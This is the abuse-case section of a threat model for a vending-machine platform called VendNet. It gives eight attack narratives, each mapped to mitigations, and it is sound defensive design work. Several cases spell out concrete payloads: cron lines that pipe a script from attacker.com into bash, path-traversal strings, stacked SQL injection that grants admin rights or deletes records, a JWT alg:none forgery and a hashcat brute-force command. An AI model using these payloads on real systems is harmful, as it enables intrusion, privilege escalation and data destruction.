







# 5. Abuse Cases

## 5.1 Overview

Abuse cases translate the highest-severity threats identified in the STRIDE-per-element analysis (§4) into concrete, attacker-centric narratives. Each case describes a realistic attack path — its prerequisites, the step-by-step execution, and the business impact if the attack succeeds — providing a bridge between the abstract threat catalogue and the concrete mitigations and security requirements documented in §6 and §7. The format follows established misuse-case practice (Sindre & Opdahl, 2005), augmented with OWASP threat-modelling guidance for API and web-application systems. Each case is assigned an identifier (AC-01 … AC-08), references the originating STRIDE threat (T-XX), and links forward to a mitigation reference (M-XX) and security requirement (SR-XX).

The eight cases were drawn from the Critical and High severity entries in the §4.3 Threat Summary table. Selection criteria maximised coverage across all four DFD element types — processes, data stores, data flows, and external entities — and across the STRIDE categories most dangerous to the VendNet architecture: Spoofing, Tampering, Denial of Service, and Elevation of Privilege. Collectively the cases exercise all major technology components named in §4.1: the JWT authentication layer, `ProcessBuilder`-based OS operations, HMAC-protected payment callbacks, MySQL persistence, and the `/var/vendnet/` file-system sandbox.

---

## 5.2 Abuse Case: AC-01 — OS Command Injection via ProcessBuilder Backup Endpoint

| Field | Detail |
|-------|--------|
| **ID** | AC-01 |
| **Title** | OS Command Injection via ProcessBuilder Backup Endpoint |
| **Threat Ref** | T-59 |
| **DFD Element** | P5 — OS Operations |
| **STRIDE Category** | Tampering |
| **Threat Agent** | Malicious insider (Administrator) / External attacker with compromised Admin account |
| **Preconditions** | Attacker holds a valid Administrator-scoped JWT (obtained via account takeover or privilege escalation); The `POST /admin/backups` endpoint accepts a user-supplied `label` or filename-prefix field; That field is appended to the `ProcessBuilder` argument array without strict allowlist sanitisation; The application service account has write access to `/var/vendnet/` and to system directories reachable by path traversal |
| **Attack Steps** | 1. Attacker authenticates as Administrator and calls `POST /admin/backups` with body `{"label":"daily\n* * * * * root curl http://attacker.com/s \| bash"}`. 2. The application constructs the `ProcessBuilder` argument list, embedding the unsanitised `label` value as a filename or script argument. 3. The embedded newline causes a cron-style entry to be written into the generated filename path under `/var/vendnet/backups/`, or the label is further processed by a shell-invoked script that evaluates it. 4. Alternatively the attacker supplies `{"label":"../../../../etc/cron.d/vendnet_persist"}` — if the label is used as a path component and canonicalisation is absent, the file is written outside the sandbox. 5. The OS cron daemon parses the new entry on the next scheduler cycle and executes the injected command as the service account (or root if the account holds `sudo` rights). 6. The reverse-shell or download payload connects back to the attacker, granting interactive OS access. 7. Attacker reads `/var/vendnet/backups/*.enc`, environment variables containing MySQL credentials, and can modify or truncate audit logs. |
| **Impact** | **Integrity:** Attacker can modify application binaries, overwrite audit-log files under `/var/vendnet/logs/audit/`, and alter database records directly via the leaked MySQL credentials. **Availability:** Service account can stop the Spring Boot process or fill disk by writing large files, causing cascading failures across all data stores. **Business Impact:** Full system compromise; extraction of all customer PII; potential ransomware deployment; regulatory breach-notification obligation under GDPR Art. 33. |
| **Severity** | Critical |
| **Mapped Mitigation** | M-01 |
| **Mapped Requirement** | SR-01 |

### Abuse Case Diagram

---

## 5.3 Abuse Case: AC-02 — Forged Payment Confirmation Webhook via HMAC Bypass

| Field | Detail |
|-------|--------|
| **ID** | AC-02 |
| **Title** | Forged Payment Confirmation Webhook via HMAC Bypass |
| **Threat Ref** | T-108 |
| **DFD Element** | DF10 — Payment Gateway → VendNet (Payment Confirmation) |
| **STRIDE Category** | Spoofing |
| **Threat Agent** | External attacker |
| **Preconditions** | Attacker has identified the payment callback endpoint `EP3` through API documentation, error messages, or network reconnaissance; The HMAC-SHA256 signing secret is weak (low entropy), leaked in Git history, or stored in an accessible location; No mutual TLS is enforced on the `EP3` inbound connection (Payment Gateway → VendNet direction); No secondary validation checks that the `transactionRef` in the callback exists in the Payment Gateway's own records before dispensing |
| **Attack Steps** | 1. Attacker discovers the callback URL for `EP3` and captures one or more legitimate webhook payloads by monitoring network traffic or by reviewing exposed API documentation. 2. Attacker performs offline brute-force of the HMAC-SHA256 secret using `hashcat --hash-type 1450` against a captured `(payload, signature)` pair; or locates the secret in a leaked `.env` file or Git commit. 3. Attacker crafts a fabricated payload: `{"transactionRef":"TXN-FAKE-001","status":"COMPLETED","amount":2.50,"machineId":"M-07","productId":"P-42"}`. 4. Attacker computes a valid HMAC-SHA256 over the payload using the recovered secret and sets `X-Signature: sha256=<computed_hmac>` in the request header. 5. Attacker submits the forged `POST` to `EP3`; VendNet validates the HMAC, considers the payment confirmed, and records a `Sale` with `PaymentStatus.COMPLETED`. 6. VendNet pushes a dispense command to vending machine M-07 via the mTLS-secured `DF8` channel; the machine dispenses product P-42 without any real payment having occurred. 7. Attacker repeats across multiple machines and products until physical stock is depleted. |
| **Impact** | **Integrity:** Fraudulent `Sale` records committed with `PaymentStatus.COMPLETED`; revenue figures and inventory counts corrupted. **Financial:** Free product dispensing at scale; direct loss proportional to product cost × number of forged confirmations; chargeback disputes unresolvable without a valid `transactionRef` in the Gateway's ledger. **Business Impact:** Inventory depletion without revenue; downstream financial reporting unreliable; potential contractual breach with Payment Gateway. |
| **Severity** | Critical |
| **Mapped Mitigation** | M-02 |
| **Mapped Requirement** | SR-02 |

### Abuse Case Diagram

---

## 5.4 Abuse Case: AC-03 — Client-Supplied Unit Price Bypasses Server-Side Catalog Validation

| Field | Detail |
|-------|--------|
| **ID** | AC-03 |
| **Title** | Client-Supplied Unit Price Bypasses Server-Side Catalog Validation |
| **Threat Ref** | T-46 |
| **DFD Element** | P3 — Sales Processing |
| **STRIDE Category** | Tampering |
| **Threat Agent** | Malicious customer |
| **Preconditions** | Attacker holds a valid Customer-scoped JWT; The `POST /sales` request body includes a `unitPrice` field that the client can freely set; P3 (Sales Processing) uses the client-supplied `unitPrice` to record the `Sale` aggregate rather than performing a server-side catalog lookup against `Product.price`; No server-side cross-validation checks that the submitted price equals the authoritative catalog price at commit time |
| **Attack Steps** | 1. Attacker authenticates as a Customer and observes a legitimate `POST /sales` request: `{"productId":"prod-123","machineId":"mach-01","slotNumber":3,"unitPrice":2.50,"quantity":1}`. 2. Using an intercepting proxy (e.g., Burp Suite), the attacker modifies the `unitPrice` field: `{"productId":"prod-123","machineId":"mach-01","slotNumber":3,"unitPrice":0.01,"quantity":1}`. 3. The modified request is submitted with the attacker's valid Customer JWT. 4. P3 trusts the client-supplied `unitPrice`; a `Sale` record is committed with `UnitPrice = £0.01` and `PaymentInfo.amount = £0.01`. 5. The Payment Gateway is authorised for £0.01; the transaction completes and the vending machine dispenses the product. 6. Attacker repeats the attack iterating through all `productId` values, purchasing high-value items at £0.01 each. 7. Sales reports show inflated transaction counts but near-zero revenue, obscuring the fraud in aggregate statistics. |
| **Impact** | **Integrity:** `Sale` records contain false `UnitPrice` values; inventory is depleted without corresponding revenue; financial reports are corrupted. **Financial:** Direct revenue loss per transaction; scalable across the entire product catalog and all deployed vending machines. **Business Impact:** Revenue integrity compromised; financial reporting figures unreliable; potential fraud liability; customer trust damage if pricing anomalies become public. |
| **Severity** | Critical |
| **Mapped Mitigation** | M-03 |
| **Mapped Requirement** | SR-03 |

### Abuse Case Diagram

---

## 5.5 Abuse Case: AC-04 — JWT alg:none Signature Bypass Grants Arbitrary Identity

| Field | Detail |
|-------|--------|
| **ID** | AC-04 |
| **Title** | JWT alg:none Signature Bypass Grants Arbitrary Identity |
| **Threat Ref** | T-28 |
| **DFD Element** | P1 — Authentication & Authorization |
| **STRIDE Category** | Spoofing |
| **Threat Agent** | External attacker |
| **Preconditions** | Attacker can register or otherwise obtain any valid JWT issued by the system; The Spring Security JWT library is not explicitly configured to reject the `alg:none` algorithm; The JWT validation path does not enforce a fixed expected algorithm before signature verification; Admin-restricted endpoints are solely protected by JWT role-claim validation with no additional session or IP binding |
| **Attack Steps** | 1. Attacker registers a Customer account and receives a valid JWT: header `{"alg":"HS256","typ":"JWT"}`, payload `{"sub":"cust-001","role":"CUSTOMER","exp":...}`. 2. Attacker base64-decodes the header and payload, modifies the header to `{"alg":"none","typ":"JWT"}` and the payload to `{"sub":"cust-001","role":"ADMINISTRATOR","exp":...}`. 3. Attacker base64-encodes the new header and payload and constructs the token with an empty signature segment: `base64(header).base64(payload).` (trailing dot, no signature). 4. Attacker submits the crafted token in `Authorization: Bearer <token>` to an admin-restricted endpoint, e.g., `GET /admin/users`. 5. If the JWT library accepts `alg:none` (historically permitted by RFC 7518 for unsecured JWTs), signature verification is skipped and the token is accepted as valid. 6. The RBAC filter reads `role=ADMINISTRATOR` from the accepted payload and grants access. 7. Attacker now has unrestricted access to all admin endpoints: user management, pricing, audit logs, backup triggers, and configuration. |
| **Impact** | **Confidentiality:** Full administrative access enables exfiltration of the entire user table (PII and BCrypt hashes), audit logs, and sales history. **Integrity:** Attacker can reassign user roles, modify pricing, trigger ProcessBuilder-based OS operations (chained with AC-01), and create backdoor accounts. **Business Impact:** Complete system compromise from any network-accessible account; no physical or insider access required; GDPR breach notification obligation. |
| **Severity** | Critical |
| **Mapped Mitigation** | M-04 |
| **Mapped Requirement** | SR-04 |

### Abuse Case Diagram

---

## 5.6 Abuse Case: AC-05 — SQL Injection via Application Input Modifies Database Records

| Field | Detail |
|-------|--------|
| **ID** | AC-05 |
| **Title** | SQL Injection via Application Input Modifies Database Records |
| **Threat Ref** | T-72 |
| **DFD Element** | DS1 — MySQL Database |
| **STRIDE Category** | Tampering |
| **Threat Agent** | External attacker / Malicious Operator |
| **Preconditions** | At least one application endpoint uses a Hibernate native SQL query that interpolates a user-supplied parameter via string concatenation rather than parameterised binding; The application DB account holds DML privileges (`INSERT`, `UPDATE`, `DELETE`) on the target tables; Error responses or observable timing differences confirm the presence of an injectable parameter; Attacker holds any valid JWT (Customer, Operator, or unauthenticated if the endpoint is unprotected) |
| **Attack Steps** | 1. Attacker probes a search endpoint: `POST /products` with body `{"name":"Juice'"}` and receives a MySQL syntax error in the 500 response, confirming string interpolation in a native query. 2. Attacker verifies the injection point is write-capable by testing a stacked query: `name=Juice'; SELECT SLEEP(2);--` — a ~2 s delay confirms stacked query execution is permitted by the MySQL driver configuration. 3. Attacker crafts a privilege-escalation payload: `name=Juice'; UPDATE users SET role='ADMINISTRATOR' WHERE username='attacker';--`. 4. The native query executes both the original SELECT and the injected UPDATE; the attacker's account is silently elevated to Administrator in the `users` table. 5. Attacker logs out and back in; the new JWT carries `role=ADMINISTRATOR`; all admin endpoints are now accessible. 6. As a follow-up, attacker executes `name=Juice'; DELETE FROM sale WHERE created_at < NOW();--` to destroy sales history and cover the attack trail. 7. No application-layer audit event is generated for the injected DML because it bypasses the domain service layer entirely. |
| **Impact** | **Integrity:** Arbitrary DML against any table the application DB account can reach — user roles modified, prices zeroed, sale records deleted or fabricated, audit entries removed. **Confidentiality:** Stacked queries can also extract data (combined with a UNION SELECT or `INTO OUTFILE`). **Business Impact:** Irreversible data corruption if no binary log or point-in-time backup exists; regulatory liability for lost audit trail; complete loss of data trustworthiness. |
| **Severity** | Critical |
| **Mapped Mitigation** | M-05 |
| **Mapped Requirement** | SR-05 |

### Abuse Case Diagram

---

## 5.7 Abuse Case: AC-06 — Path Traversal Writes Cron Entry Outside /var/vendnet/ Sandbox

| Field | Detail |
|-------|--------|
| **ID** | AC-06 |
| **Title** | Path Traversal Writes Cron Entry Outside /var/vendnet/ Sandbox |
| **Threat Ref** | T-84 |
| **DFD Element** | DS2 — Server File System (`/var/vendnet/`) |
| **STRIDE Category** | Elevation of Privilege |
| **Threat Agent** | Malicious insider (Administrator) / External attacker with Admin access |
| **Preconditions** | Attacker holds a valid Administrator-scoped JWT; The report-generation endpoint accepts a user-supplied `reportType` parameter used as a path component; Path canonicalisation is either absent or performed after the allowlist regex check, leaving a decode-order bypass window; The application service account has write access to system directories such as `/etc/cron.d/` due to overly broad OS permissions |
| **Attack Steps** | 1. Attacker calls `POST /admin/reports` with `{"reportType":"sales"}` to confirm normal behaviour and observe the resulting file path in the response metadata. 2. Attacker URL-encodes a traversal sequence: `{"reportType":"%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fcron.d%2fvendnet_persist"}`; if the regex `^[a-zA-Z0-9_-]+$` runs against the raw (un-decoded) string, it passes because the encoded payload contains no literal dots or slashes. 3. The application URL-decodes the value during path construction, producing `../../../../etc/cron.d/vendnet_persist`. 4. `Files.createDirectories("/var/vendnet/reports/../../../../etc/cron.d/")` resolves canonically to `/etc/cron.d/`; the directory is created (or already exists). 5. A subsequent report-write operation writes the attacker's cron payload into `/etc/cron.d/vendnet_persist`: `* * * * * root curl http://attacker.com/implant.sh | bash`. 6. On the next cron cycle (within 60 seconds) the OS executes the payload as root (or the service account), establishing persistent OS-level access that survives application restarts and re-deployments. 7. AES-256-encrypted backup archives under `/var/vendnet/backups/` are readable by the attacker's shell; if the encryption key is co-located, full decryption is feasible. |
| **Impact** | **Integrity:** Persistent cron backdoor survives patch cycles and container restarts; attacker can modify application binaries and audit logs. **Confidentiality:** OS-level shell access enables reading MySQL credentials from environment variables, decrypting backup archives, and extracting all customer PII. **Availability:** Cron job can execute disk-wiping or service-stopping payloads; recovery requires full OS forensic re-image. **Business Impact:** Persistent compromise; breach-notification obligation; full forensic investigation cost; potential data-destruction scenario. |
| **Severity** | Critical |
| **Mapped Mitigation** | M-06 |
| **Mapped Requirement** | SR-06 |

### Abuse Case Diagram

---

## 5.8 Abuse Case: AC-07 — TOCTOU Race Condition Drives Stock to Negative Quantity

| Field | Detail |
|-------|--------|
| **ID** | AC-07 |
| **Title** | TOCTOU Race Condition Drives Stock to Negative Quantity |
| **Threat Ref** | T-45 |
| **DFD Element** | P3 — Sales Processing |
| **STRIDE Category** | Tampering |
| **Threat Agent** | External attacker / coincidental concurrent load |
| **Preconditions** | The `POST /sales` endpoint checks slot stock availability (`CurrentQuantity > 0`) and then decrements `CurrentQuantity` in a separate operation without a pessimistic database lock or atomic compare-and-decrement; The `@Transactional` isolation level is `READ_COMMITTED` (MySQL default) or lower, allowing two concurrent transactions each to observe the pre-decrement stock level; Attacker can open two or more parallel HTTP connections with valid Customer JWTs (the same account or two separate accounts); The target slot has `CurrentQuantity = 1` (last unit) |
| **Attack Steps** | 1. Attacker identifies a slot with `CurrentQuantity = 1` via a catalog or machine-status endpoint. 2. Attacker opens two concurrent HTTP connections and simultaneously fires `POST /sales` for the same `{"machineId":"M-03","slotNumber":5,"productId":"prod-77"}` from both connections within the same millisecond window. 3. Transaction T1 reads `CurrentQuantity = 1` (stock check passes); before T1 commits, Transaction T2 also reads `CurrentQuantity = 1` (T1's decrement is not yet visible under `READ_COMMITTED`). 4. Both transactions pass the availability check and proceed to commit; T1 decrements to 0 and commits; T2 decrements to -1 and commits — violating the domain invariant `0 ≤ CurrentQuantity ≤ SlotCapacity`. 5. Two `Sale` records are created for a product that only existed once; the vending machine attempts to dispense twice, causing a dispense error on the second attempt (or dispensing a neighbouring slot's product). 6. The `CurrentQuantity = -1` value in the `Slot` aggregate now prevents legitimate restocking logic from operating correctly until manually corrected. 7. Attacker repeats across multiple machines and slots, creating widespread negative-inventory states that cascade into incorrect restock dispatches. |
| **Impact** | **Integrity:** `Slot.CurrentQuantity` driven to negative values, corrupting the inventory model and triggering erroneous restock operations. **Financial:** Two completed `Sale` records charged against a single unit of stock; one customer receives no product while paying full price, leading to refund costs. **Availability:** Persistent negative-inventory states block normal restocking workflows until manual correction; widespread exploitation degrades Operator operational efficiency. **Business Impact:** Customer trust loss from failed dispenses; operational overhead for manual inventory reconciliation; potential for systematic exploitation to exhaust virtual inventory across the fleet. |
| **Severity** | High |
| **Mapped Mitigation** | M-07 |
| **Mapped Requirement** | SR-07 |

### Abuse Case Diagram

---

## 5.9 Abuse Case: AC-08 — Coordinated Compromised VM Fleet Floods Telemetry Database

| Field | Detail |
|-------|--------|
| **ID** | AC-08 |
| **Title** | Coordinated Compromised VM Fleet Floods Telemetry Database |
| **Threat Ref** | T-55 |
| **DFD Element** | P4 — Telemetry & Monitoring |
| **STRIDE Category** | Denial of Service |
| **Threat Agent** | Compromised VM fleet (supply-chain or physical attacker) |
| **Preconditions** | Attacker has extracted valid mTLS client certificates and private keys from multiple physically or logically compromised vending machines; No per-machine request-rate limit is enforced on the telemetry ingestion endpoint beyond the mTLS authentication check; The telemetry table in MySQL has no DB-level retention or write-throttle policy; The telemetry DB shares the same MySQL instance disk as the `users`, `sales`, and `inventory` tables |
| **Attack Steps** | 1. Attacker (or compromised firmware deployed via supply-chain) extracts mTLS client certificate and key material from N vending machines (N ≥ 10) through physical access or firmware tampering. 2. Each compromised machine (or attacker-controlled server using stolen certs) begins sending telemetry POST requests to `EP2` at 200 requests/second — roughly 200× the legitimate rate of one packet per minute. 3. All requests carry valid mTLS client certificates; the backend authenticates each connection as a legitimate registered machine and queues the telemetry for persistence. 4. The Tomcat thread pool and HikariCP connection pool begin saturation: N × 200 req/s = 2,000+ concurrent inserts against the telemetry table; legitimate sales and inventory queries are starved of DB connections. 5. The telemetry table grows unboundedly — at 200 bytes per row and 2,000 inserts/second, disk fills at approximately 33 GB/hour on a shared MySQL data directory. 6. When disk reaches capacity, MySQL returns `ENOSPC` on all write operations; the Spring Boot application fails to commit `Sale` records, audit log entries, and inventory updates — all return 500 errors to legitimate users. 7. Customer purchases fail at the point of sale; Operator dashboards show stale or unavailable machine status; Administrator backup jobs abort with `IOException`. |
| **Impact** | **Availability:** Complete disruption of all write operations across the shared MySQL instance — purchases, inventory updates, audit logging, and backups all fail simultaneously. **Integrity:** In-flight `Sale` transactions that fail mid-commit may leave partial records, corrupting the `Sale` aggregate state and payment reconciliation. **Business Impact:** Revenue loss during the outage window; SLA breach; customer-facing purchase failures; inability to perform compliance-required audit logging during the attack; recovery requires disk clean-up and telemetry table truncation with associated data loss. |
| **Severity** | High |
| **Mapped Mitigation** | M-08 |
| **Mapped Requirement** | SR-08 |

### Abuse Case Diagram

---

## 5.10 Abuse Case Summary

| AC ID | Title | Threat Ref | STRIDE | Severity | Mitigation |
|-------|-------|------------|--------|----------|------------|
| AC-01 | OS Command Injection via ProcessBuilder Backup Endpoint | T-59 | Tampering | Critical | M-01 |
| AC-02 | Forged Payment Confirmation Webhook via HMAC Bypass | T-108 | Spoofing | Critical | M-02 |
| AC-03 | Client-Supplied Unit Price Bypasses Server-Side Catalog Validation | T-46 | Tampering | Critical | M-03 |
| AC-04 | JWT alg:none Signature Bypass Grants Arbitrary Identity | T-28 | Spoofing | Critical | M-04 |
| AC-05 | SQL Injection via Application Input Modifies Database Records | T-72 | Tampering | Critical | M-05 |
| AC-06 | Path Traversal Writes Cron Entry Outside /var/vendnet/ Sandbox | T-84 | Elevation of Privilege | Critical | M-06 |
| AC-07 | TOCTOU Race Condition Drives Stock to Negative Quantity | T-45 | Tampering | High | M-07 |
| AC-08 | Coordinated Compromised VM Fleet Floods Telemetry Database | T-55 | Denial of Service | High | M-08 |
